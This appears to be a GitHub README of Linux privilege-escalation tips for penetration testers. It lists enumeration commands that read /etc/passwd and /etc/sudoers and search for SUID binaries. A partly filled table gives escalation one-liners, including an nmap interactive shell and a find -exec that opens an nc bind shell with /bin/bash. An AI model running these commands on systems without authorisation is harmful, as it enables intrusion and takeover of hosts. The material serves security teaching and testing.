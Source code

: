 # Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables            | Priv Esc Command                                                                    |
|------------------------------------|-------------------------------------------------------------------------------------|
| nmap<br>(older versions 2.02 to 5.21) | nmap --interactive !sh                                                              |
| awk                                |                                                                                     |
| python                             |                                                                                     |
| perl                               |                                                                                     |
| find                               | find /home -exec nc -lvp 4444  -e /bin/bash \\;<br> find /home -exec /bin/bash \\;` |
| xxd                                |                                                                                     |
| vi                                 |                                                                                     |
| bash                               |                                                                                     |
| more                               |                                                                                     |
| less                               |                                                                                     |
| nano                               |                                                                                     |
| cp                                 |                                                                                     |
